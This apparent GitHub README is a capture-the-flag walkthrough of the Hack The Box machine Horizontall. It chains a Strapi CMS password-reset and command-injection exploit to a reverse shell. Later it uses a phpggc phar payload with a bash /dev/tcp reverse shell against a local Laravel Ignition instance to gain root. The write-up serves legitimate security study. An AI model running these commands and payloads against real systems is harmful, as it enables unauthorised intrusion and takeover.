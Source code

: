 <p align="center"><img src="img/banner.png" alt="Banner"></img></p>
<p align="center">Machine creator: <a href="https://app.hackthebox.com/profile/4005">wail99</a></p>

[![f4T1H21](https://www.hackthebox.com/badge/image/184235)](https://app.hackthebox.eu/profile/184235)
<br>
<a href="https://www.buymeacoffee.com/f4T1H21">
  <img src="https://github.com/f4T1H21/f4T1H21/blob/main/support.png" height="40" alt="Support">
  </img>
</a>
<br>

---
# Reconnaissance
### Nmap result
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## `80/tcp` web service
### Vhost enumeration
Virtual hosting can be found by a simple gobuster scan.
```
┌──(root💀f4T1H)-[~/hackthebox/horizontall]
└─# gobuster -q vhost -u http://horizontall.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -r -t 1000
Found: api-prod.horizontall.htb (Status: 200) [Size: 413]
```

### Directory enumeration
See `/admin` from a snippet of the scan.
```
┌──(root💀f4T1H)-[~/hackthebox/horizontall]
└─# gobuster dir -q -u http://api-prod.horizontall.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x .txt,.php,.html,.js -e -t 65  
http://api-prod.horizontall.htb/index.html           (Status: 200) [Size: 413]
http://api-prod.horizontall.htb/admin                (Status: 200) [Size: 854]
. . .
```

![strapi](img/strapi.png)

# Foothold: Strapi CMS RCE

https://www.exploit-db.com/exploits/50239

>This script exploits two different vulnerability:
>
>1-  There's an unrestricted endpoint `/admin/auth/reset-password` which can give us direct access to admin's password reset functionality.
>
>2- If you make a post request to `/admin/plugins/install` with the authorized JWT token you get from password reset, a plugin name -in this case "documentation"- and a command with the format of: `&& $(id)` it'll be executed. But none of the output will be shown.

Use the exploit to get a reverse shell.

# Privilege Escalation

![version_check](img/version_check.png)

Although the box seems like it's vulnerable to [CVE-2021-3156](https://github.com/blasty/CVE-2021-3156), unfortunately it isn't.

>You can check your version of sudo is vulnerable with: `$ sudoedit -s Y`. If it asks for your password it's most likely vulnerable, if it prints usage information it isn't.

```
strapi@horizontall:~$ sudoedit -s Y
usage: sudoedit [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout] [-u user] file ...
```

### :')

After stabilizing the connection via ssh, you see a locally listened port: `8000/tcp`
```
strapi@horizontall:~$ netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1836/node /usr/bin/ 
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```

Find out this is a Laravel framework with a curl request.
```
strapi@horizontall:~$ curl http://127.0.0.1:8000 -i
. . .
X-Powered-By: PHP/7.4.22
Set-Cookie: laravel_session=...
. . .
<div class="ml-4 text-center text-sm text-gray-500 sm:text-right sm:ml-0">
                            Laravel v8 (PHP v7.4.18)
                    </div>
. . .
```

### Port forward locally using ssh tunneling.
Press \<Enter\> key once and in the new line immediately press `~` (tilda) before anything else. This'll let you enter ssh prompt and then you can give any flag like as you do at first.
```
strapi@horizontall:~$
strapi@horizontall:~$ 
ssh> -L 8000:127.0.0.1:8000
Forwarding port.

strapi@horizontall:~$
```

## Exploiting Laravel
See the github link mentioned below in [HackTricks' Laravel reference](https://book.hacktricks.xyz/pentesting/pentesting-web/laravel).
<br>https://github.com/ambionics/laravel-exploits

First, git clone the repo I mentioned above and [`phpggc`](https://github.com/ambionics/phpggc).

>- This tool allows you to generate the payload easily, it can be seen as the equivalent of frohoff's ysoserial, but for PHP.<br>
>- The tool supports gadget chains such as: CodeIgniter4, Doctrine, Drupal7, Guzzle, Laravel, Magento, Monolog, Phalcon, Podio, Slim, SwiftMailer, Symfony, Wordpress, Yii and ZendFramework.

Second, start a nc listener.
<br>
Third, generate the payload.
```
┌──(root💀f4T1H)-[~/hackthebox/horizontall]
└─# php -d'phar.readonly=0' phpggc/phpggc --phar phar -f -o exploit.phar monolog/rce1 system "bash -c 'bash -i >& /dev/tcp/10.10.16.42/2121 0>&1'"
```
Fourth, fire up the exploit.
```
┌──(root💀f4T1H)-[~/hackthebox/horizontall]
└─# python3 laravel-exploits/laravel-ignition-rce.py http://127.0.0.1:8000/ exploit.phar                                                          
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
```
As soon as you see the `Successfully converted to PHAR !` message, your command should be executed. In this case the exploit didn't finish running because it provided a reverse connection to me.

![root](img/root.png)

---

# Resources

|__`Strapi CMS 3.0.0-beta.17.4 RCE`__|__https://www.exploit-db.com/exploits/50239__|
|:-|:-|
|__`Sudo Heap Based Buffer Overflow`__|__https://github.com/blasty/CVE-2021-3156__|
|__`HackTricks' Laravel Reference`__|__https://book.hacktricks.xyz/pentesting/pentesting-web/laravel__|
|__`Laravel Debug Mode RCE`__|__https://github.com/ambionics/laravel-exploits__|
|__`PHPGGC`__|__https://github.com/ambionics/phpggc__|

<br>

___─ Written by f4T1H ─___